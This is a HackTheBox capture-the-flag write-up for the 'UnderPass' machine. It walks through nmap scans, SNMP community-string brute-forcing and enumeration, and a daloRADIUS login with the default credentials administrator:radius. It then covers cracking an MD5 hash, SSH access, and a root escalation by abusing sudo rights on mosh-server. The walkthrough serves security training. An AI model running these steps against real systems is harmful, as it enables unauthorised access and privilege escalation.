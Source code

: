 ```yaml
---
title: UnderPass
date: 2025-03-26
difficulty: easy
os: linux
tags: snmp
---
```


Welcome back to HackTheBox, let's start by scanning our target with `nmap`:

```
$ sudo nmap -sV -sC 10.10.11.48
[sudo] password for kali:
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-26 10:49 CET
Nmap scan report for 10.10.11.48
Host is up (0.014s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.44 seconds
```

![the default Apache welcome screen](./images/apache-default.png)

On port 80 we find a Apache installation showing us the default page! There seems to be nothing there!

Let's try a `-sU` scan:

```
$ sudo nmap -sU 10.10.11.48
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-26 11:02 CET
Nmap scan report for 10.10.11.48
Host is up (0.019s latency).
Not shown: 997 closed udp ports (port-unreach)
PORT     STATE         SERVICE
161/udp  open          snmp
1812/udp open|filtered radius
1813/udp open|filtered radacct

Nmap done: 1 IP address (1 host up) scanned in 1091.28 seconds
```

We find a SNMP service on port 161. SNMP is a service that typically runs on UDP and enumerating it is a nice practice of my footprinting skills.

## Footprinting SNMP

```
$ onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt 10.10.11.48
Scanning 1 hosts, 3219 communities
10.10.11.48 [public] Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
```

As you can see we identified, from the list of top community strings, the present string `public`: `onesixtyone` can be used to brute-force the names of the community strings since they can be named arbitrarily by the administrator.

```
$ snmpwalk -v2c -c public 10.10.11.48
iso.3.6.1.2.1.1.1.0 = STRING: "Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (103701) 0:17:17.01
iso.3.6.1.2.1.1.4.0 = STRING: "steve@underpass.htb"
iso.3.6.1.2.1.1.5.0 = STRING: "UnDerPass.htb is the only daloradius server in the basin!"
iso.3.6.1.2.1.1.6.0 = STRING: "Nevada, U.S.A. but not Vegas"
iso.3.6.1.2.1.1.7.0 = INTEGER: 72
iso.3.6.1.2.1.1.8.0 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.2.1 = OID: iso.3.6.1.6.3.10.3.1.1
iso.3.6.1.2.1.1.9.1.2.2 = OID: iso.3.6.1.6.3.11.3.1.1
iso.3.6.1.2.1.1.9.1.2.3 = OID: iso.3.6.1.6.3.15.2.1.1
iso.3.6.1.2.1.1.9.1.2.4 = OID: iso.3.6.1.6.3.1
iso.3.6.1.2.1.1.9.1.2.5 = OID: iso.3.6.1.6.3.16.2.2.1
iso.3.6.1.2.1.1.9.1.2.6 = OID: iso.3.6.1.2.1.49
iso.3.6.1.2.1.1.9.1.2.7 = OID: iso.3.6.1.2.1.50
iso.3.6.1.2.1.1.9.1.2.8 = OID: iso.3.6.1.2.1.4
iso.3.6.1.2.1.1.9.1.2.9 = OID: iso.3.6.1.6.3.13.3.1.3
iso.3.6.1.2.1.1.9.1.2.10 = OID: iso.3.6.1.2.1.92
iso.3.6.1.2.1.1.9.1.3.1 = STRING: "The SNMP Management Architecture MIB."
iso.3.6.1.2.1.1.9.1.3.2 = STRING: "The MIB for Message Processing and Dispatching."
iso.3.6.1.2.1.1.9.1.3.3 = STRING: "The management information definitions for the SNMP User-based Security Model."
iso.3.6.1.2.1.1.9.1.3.4 = STRING: "The MIB module for SNMPv2 entities"
iso.3.6.1.2.1.1.9.1.3.5 = STRING: "View-based Access Control Model for SNMP."
iso.3.6.1.2.1.1.9.1.3.6 = STRING: "The MIB module for managing TCP implementations"
iso.3.6.1.2.1.1.9.1.3.7 = STRING: "The MIB module for managing UDP implementations"
iso.3.6.1.2.1.1.9.1.3.8 = STRING: "The MIB module for managing IP and ICMP implementations"
iso.3.6.1.2.1.1.9.1.3.9 = STRING: "The MIB modules for managing SNMP Notification, plus filtering."
iso.3.6.1.2.1.1.9.1.3.10 = STRING: "The MIB module for logging SNMP Notifications."
iso.3.6.1.2.1.1.9.1.4.1 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.2 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.3 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.4 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.5 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.6 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.7 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.8 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.9 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.10 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.25.1.1.0 = Timeticks: (105061) 0:17:30.61
iso.3.6.1.2.1.25.1.2.0 = Hex-STRING: 07 E9 03 1A 0A 04 24 00 2B 00 00
iso.3.6.1.2.1.25.1.3.0 = INTEGER: 393216
iso.3.6.1.2.1.25.1.4.0 = STRING: "BOOT_IMAGE=/vmlinuz-5.15.0-126-generic root=/dev/mapper/ubuntu--vg-ubuntu--lv ro net.ifnames=0 biosdevname=0
"
iso.3.6.1.2.1.25.1.5.0 = Gauge32: 0
iso.3.6.1.2.1.25.1.6.0 = Gauge32: 212
iso.3.6.1.2.1.25.1.7.0 = INTEGER: 0
iso.3.6.1.2.1.25.1.7.0 = No more variables left in this MIB View (It is past the end of the MIB tree)
```

Who is `steve@underpass.htb`? Note this string:

```
iso.3.6.1.2.1.1.5.0 = STRING: "UnDerPass.htb is the only daloradius server in the basin!"
```

What is `daloradius`?

![daloradius description](./images/daloradius.png)

## daloRADIUS

Looking up the `daloRADIUS` documentation, it seems to be the case that it's files are cloned to `/daloradius`, and if we check `/daloradius/.gitignore` we find some details:

![gitignore file](./images/gitignore.png)

If we check the [daloradius repository](https://github.com/lirantal/daloradius/tree/master), it points us to `/app/users/login.php` and `app/operators/login.php`:

![users login screen](./images/users-login.png)
![operators login screen](./images/operators-login.png)

We can try the default credentials: `administrator:radius` and access the operators login screen:

![dashboard](./images/dashboard.png)

We can quickly find a MD5 user password hash:

![the user listing shows a MD5 hash](./images/userlisting.png)

We can crack this hash on CrackStation

![crackstation knows this hash](./images/crackstation.png)

```
$ ssh svcMosh@underpass.htb
svcMosh@underpass.htb's password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Wed Mar 26 01:19:10 PM UTC 2025

  System load:  0.43              Processes:             236
  Usage of /:   59.8% of 6.56GB   Users logged in:       0
  Memory usage: 20%               IPv4 address for eth0: 10.10.11.48
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Sat Jan 11 13:29:47 2025 from 10.10.14.62
svcMosh@underpass:~$
```

And just like that, we have the user flag!

```
svcMosh@underpass:~$ cat user.txt
60349ab8a6c10f63f4ab7d05f*****
```

## root

```
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server

svcMosh@underpass:~$ sudo mosh-server new -p 61000


MOSH CONNECT 61000 ptdX1ktIer3aoOjhUK/WUg

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 2937]
svcMosh@underpass:~$ MOSH_KEY=ptdX1ktIer3aoOjhUK/WUg mosh-client 127.0.0.1 61000
```

And then opens a new window:

```
root@underpass:~# ls
root.txt
root@underpass:~# ^C
root@underpass:~# cat root.txt
d402e0fc9f6fdc976ceb7b8******
```

That was it! Thanks for joining me along the way here on what turned out to be quite simple, but not too obvious!
